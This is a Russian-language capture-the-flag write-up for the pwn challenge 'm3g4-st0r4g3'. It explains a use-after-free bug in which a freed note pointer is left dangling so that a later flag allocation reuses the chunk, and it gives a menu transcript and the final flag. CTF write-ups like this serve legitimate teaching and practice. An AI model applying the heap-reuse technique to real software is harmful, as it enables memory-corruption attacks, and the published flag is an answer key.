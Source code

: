 # pwn | m3g4-st0r4g3

## Information
Th1s 15 my m3g4-st0r4g3. C4n y0u pwn th1s?

## Writeup
Здесь у нас уязвимость use-after-free. При удалении нашей записи мы делаем free от указателя в storage, но при этом указатель никак не затираем. Размер заметки 32 байта. При аллоцировании 25-40 байт malloc выделяет 48 байт в куче и вовзращает указатель туда. malloc отдаёт преимущество тем полям, куда уже были положены данные, а потом от них было free. Если таковых полей нет, то он выделяет новое место на куче. Следовательно если длина флага будет попадать в диапазон 25-40, то malloc потенциально может выделить место там, где до этого лежала заметка.

Алгоритм такой:
1. Делаем заметку. На куче выделяется место.
2. Удаляем заметку.
3. Аллоцируем флаг.
4. Читаем заметки.

```
=== m3g4-st0r4g3 ===
1. PUT
2. DELETE
3. INFO
4. ALLOC FLAG
5. EXIT
>1
Text: 123231dadsadas
=== m3g4-st0r4g3 ===
1. PUT
2. DELETE
3. INFO
4. ALLOC FLAG
5. EXIT
>3
=== INFO===
1. 123231dadsadas
2. (null)
3. (null)
4. (null)
5. (null)
=== m3g4-st0r4g3 ===
1. PUT
2. DELETE
3. INFO
4. ALLOC FLAG
5. EXIT
>2
Number: 1
=== m3g4-st0r4g3 ===
1. PUT
2. DELETE
3. INFO
4. ALLOC FLAG
5. EXIT
>4
=== m3g4-st0r4g3 ===
1. PUT
2. DELETE
3. INFO
4. ALLOC FLAG
5. EXIT
>3
=== INFO===
1. SgffCTF{b1m_b1m_b4m_b4m}
2. (null)
3. (null)
4. (null)
5. (null)
```

## Flag
`SgffCTF{b1m_b1m_b4m_b4m}`
